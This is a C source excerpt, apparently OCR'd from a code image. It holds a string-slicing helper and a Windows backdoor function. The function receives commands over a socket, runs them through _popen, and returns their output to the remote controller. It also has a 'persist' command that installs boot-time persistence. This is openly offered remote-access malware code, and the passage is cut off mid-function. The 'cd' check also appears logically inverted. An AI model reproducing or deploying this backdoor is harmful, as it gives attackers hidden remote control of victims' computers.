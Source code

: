```c
  if (str[0] == '\0')
    return NULL;

  char *buffer;
  size_t str_len, buffer_len;

  if (slice_to < 0 && slice_from > slice_to) {
    str_len = strlen(str);
    if (abs(slice_to) > str_len - 1)
            return NULL;

    if (abs(slice_from) > str_len)
            slice_from = (-1) * str_len;

    buffer_len = slice_to - slice_from;
    str += (str_len + slice_from);

  } else if (slice_from >= 0 && slice_to > slice_from) {
    str_len = strlen(str);

    if (slice_from > str_len - 1)
            return NULL;
    buffer_len = slice_to - slice_from;
    str += slice_from;

  } else
    return NULL;

  buffer = calloc(buffer_len, sizeof(char));
  strncpy(buffer, str, buffer_len);
  return buffer;
}

void Shell() {
  char buffer[1024];
  char container[1024];
  char total_response[1024];

  while(1) {
    jump:
    bzero(buffer, sizeof(buffer));
    bzero(container, sizeof(container));
    bzero(total_response, sizeof(total_response));

    recv(sock, buffer, 1024, 0);

    if(strncmp("q", buffer, 1) == 0) {
      closesocket(sock);
      WSACleanup();
      exit(0);
    } else if(strncmp("cd ", buffer, 3)) {
      chdir(str_cut(buffer, 3, 100));
    } else if(strncmp("persist", buffer, 7) == 0) {
      bootRun();
    } else {
      FILE *fp;
      fp = _popen(buffer, "r");
      while(fgets(container, 1024, fp) != NULL) {
        strcat(total_response, container);
      }
      send(sock, total_response, sizeof(total_response), 0);
      fclose(fp);
    }
```